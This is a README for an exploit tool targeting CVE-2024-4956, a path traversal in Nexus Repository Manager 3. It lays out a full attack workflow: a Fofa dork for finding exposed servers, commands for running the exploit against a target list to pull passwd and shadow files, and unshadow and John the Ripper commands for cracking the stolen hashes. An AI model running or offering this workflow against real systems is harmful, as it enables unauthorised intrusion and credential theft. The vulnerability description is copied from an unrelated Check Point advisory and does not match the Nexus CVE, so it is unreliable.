


# CVE-2024-4956

[](https://buymeacoffee.com/verylazytech/extras)
[](https://medium.com/@verylazytech)
[](https://github.com/verylazytech)
[](https://buymeacoffee.com/verylazytech)

# POC - CVE-2024–4956 - Nexus Repository Manager 3 Unauthenticated Path Traversal

Potentially allowing an attacker to read certain information on Check Point Security Gateways once connected to the internet and enabled with Remote Access VPN or Mobile Access Software Blades. A security fix that mitigates this vulnerability is available.

**Read about it** — [CVE-2024-4956](https://nvd.nist.gov/vuln/detail/CVE-2024-4956)

> **Disclaimer**: This Proof of Concept (POC) is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## Getting Started

### Finding Targets

To find potential targets, use Fofa (similar to Shodan.io):

- **Fofa Dork**: `header="Server: Nexus/3.53.0-01 (OSS)"`
  


First, clone the repository:

```bash
git clone https://github.com/verylazytech/CVE-2024-4956
```

Next chose your target and add it to list.txt file in this format:

- https://ip_address

Run the Exploit:

```bash
python3 CVE-2024-4956.py -l list.txt
```
The output is passwd and shadow files that found:




Now after you find both file passwd & shadow you can try crack the hash with JohnTheRipper, after running the exploit you have 2 files, passwd & shadow, so you can merge them into one file and try crack them (I used rockyou.txt but it can be any password wordlist):
```bash
unshadow passwd shadow > unshadowed.txt 
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
